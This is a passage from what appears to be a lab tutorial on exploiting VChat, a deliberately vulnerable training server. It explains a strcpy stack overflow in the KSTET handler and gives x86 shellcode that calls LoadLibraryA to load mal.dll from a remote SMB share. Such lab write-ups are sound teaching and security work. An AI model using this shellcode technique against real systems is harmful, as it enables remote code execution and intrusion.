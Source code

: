 > [!NOTE]
> We omit repetitive rows representing ineffective mitigation strategies as their cases are already covered.
## VChat and Exploit Code

### VChat Code
As with the previous exploits, the VChat code is relatively simple in nature. Once a connection is received on port 9999, a thread is created running the  `DWORD WINAPI ConnectionHandler(LPVOID cli)` function, where `LPVOID cli` is a void pointer that holds the address of a `client_t` structure; this is a custom structure that contains the necessary connection information.


Below is the code segment that handles the `KSTET` message type.
```c
else if (strncmp(RecvBuf, "KSTET ", 6) == 0) {
	char* KstetBuf = malloc(100);
	strncpy(KstetBuf, RecvBuf, 100);
	memset(RecvBuf, 0, DEFAULT_BUFLEN);
	Function2(KstetBuf);
	SendResult = send(Client, "KSTET SUCCESSFUL\n", 17, 0);
}
```
The buffer we copy to is only 100 bytes, and by using the [`strncpy(char * destination, const char * source, size_t num )`](https://cplusplus.com/reference/cstring/strncpy/) function, we guarantee we will only copy 100 bytes from the source into the destination buffer. This prevents buffer overflows as we limit the number of character copied not by the size of the source, but based on something we specify. Then to prevent malicious code from existing in memory, as the original Vulnserver did not free the receiving buffer the line `memset(RecvBuf, 0, DEFAULT_BUFLEN);` zeros out the receiving buffer. Then the code calls `Function2(...)`; this is where the overflow occurs. 

```c
void Function2(char* Input) {
	char Buffer2S[60];
	strcpy(Buffer2S, Input);
}
```

Within `Function2(char* input)`, we copy the buffer that possibly contains 100 bytes into a locally declared buffer that has 60 bytes of space allocated. As we use the [`strcpy(char * destination, const char * source)`](https://cplusplus.com/reference/cstring/strcpy/) function, this copies from the source (100 bytes) to the destination buffer (60 bytes) until a null terminator is detected in the source buffer.

### Shellcode
The resulting shellcode is shown below:
```s
sub esp,0x64            ; Move ESP pointer above our initial buffer to avoid
                        ; overwriting our shellcode
xor ebx,ebx             ; Zero out EBX that will be the NULL byte terminating
                        ; the UNC path
push ebx                ; PUSH NULL byte
push 0x6c6c642e         ; \\10.0.2.15\ABCD\mal.dll reversed
push 0x6c616d5c
push 0x44434241
push 0x5c35312e
push 0x322e302e
push 0x30315c5c
push esp                ; Push pointer of the UNC path
mov ebx,0x76ba12a0      ; Move into EBX the address of 'LoadLibraryA'
call ebx                ; call 'LoadLibraryA("\\10.0.2.15\ABCD\mal.dll")'
```
